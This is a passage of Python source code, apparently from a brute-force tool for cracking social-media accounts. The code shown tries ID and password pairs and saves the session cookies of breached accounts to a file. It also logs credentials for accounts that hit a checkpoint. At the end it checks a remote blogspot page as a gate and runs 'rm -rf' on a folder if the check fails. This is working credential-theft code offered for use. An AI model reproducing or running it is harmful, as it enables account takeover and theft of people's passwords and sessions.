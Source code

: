				#akun.append(idf+'|'+pw)
				oks.append(idf)
				cokii=";".join([key+"="+value for key,value in ses.cookies.get_dict().items()])
				open('/sdcard/SIFAT-KOKI.txt','a').write(cokii+'\n')
				
				break
			elif "checkpoint" in po.cookies.get_dict().keys():
				print (f' \x1b[38;5;208m[SIFAT-CP] '+idf+'|'+pw)
				open('/sdcard/SIFAT-CP.txt','a').write(idf+'|'+pw+'\n')
				break
				
			else:
				#print (idf,pw)
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(10)
	loop+=1

def ckk():
	mod = "SaiMu"
	peo = requests.get('https://apppppappppppappp.blogspot.com/2023/03/file.html').text
	if mod in peo:
		File()
	else:
		os.system('rm -rf EID-SPECIAL-GITF')
		exit()
		
ckk()
